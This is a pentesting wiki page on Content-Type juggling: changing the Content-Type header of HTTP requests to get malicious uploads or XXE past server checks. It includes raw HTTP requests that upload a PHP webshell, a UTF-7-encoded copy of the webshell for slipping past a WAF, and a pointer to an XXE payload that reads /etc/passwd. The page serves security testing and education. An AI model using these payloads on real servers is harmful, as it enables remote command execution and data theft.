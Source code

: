 # Content-Type juggling

## Theory

**Content-Type juggling** exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../../web/inputs/file-inclusion/lfi-to-rce/file-upload.md) or [xxe-injection](content-type-juggling.md#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](content-type-juggling.md#examples)).

{% hint style="info" %}
The `Content-Type` header is used to indicate the MIME type of the resource.

* In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
* In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.
{% endhint %}

{% hint style="warning" %}
If the [XCTO (X-Content-Type-Options)](../../web/config/http-headers/#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.
{% endhint %}

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header **not** present ?
* Can the `Content-Type` header  be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`,  [XXE](xxe-injection.md) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

**One should not stick to this list and always try several Content-Type values.**

<details>

<summary>List of the most common Content-Type values</summary>

{% code title="Type application" %}
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```
{% endcode %}

{% code title="Type audio" %}
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
{% endcode %}

{% code title="Type image" %}
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```
{% endcode %}

{% code title="Type multipart" %}
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```
{% endcode %}

{% code title="Type text" %}
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```
{% endcode %}

{% code title="Type video" %}
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```
{% endcode %}

{% code title="Type vnd" %}
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```
{% endcode %}

</details>

### Example attacks

<details>

<summary>PHP payload upload and RCE</summary>

Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

</details>

<details>

<summary>Bypass a WAF</summary>

Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](content-type-juggling.md#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "**charset juggling**" can be performed.

{% code title="Getting caught by the WAF" %}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```
{% endcode %}

{% code title="Bypassing the WAF" %}
```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```
{% endcode %}

</details>

<details>

<summary>API attack, leading to XXE</summary>

In the following request, the application normally sends JSON content (`Content-Type: application/json`).&#x20;

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.&#x20;

<img src="../../.gitbook/assets/CT-JUGGLING-3.png" alt="Performing Content-Type juggling" data-size="original">

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](xxe-injection.md)).

<img src="../../.gitbook/assets/CT-JUGGLING-4.png" alt="Crafting a XXE payload to extract /etc/passwd" data-size="original">

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).

</details>

## Resources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee" %}
Content-Type from JSON to XEE
{% endembed %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses" %}
WAF and protections bypasses
{% endembed %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}
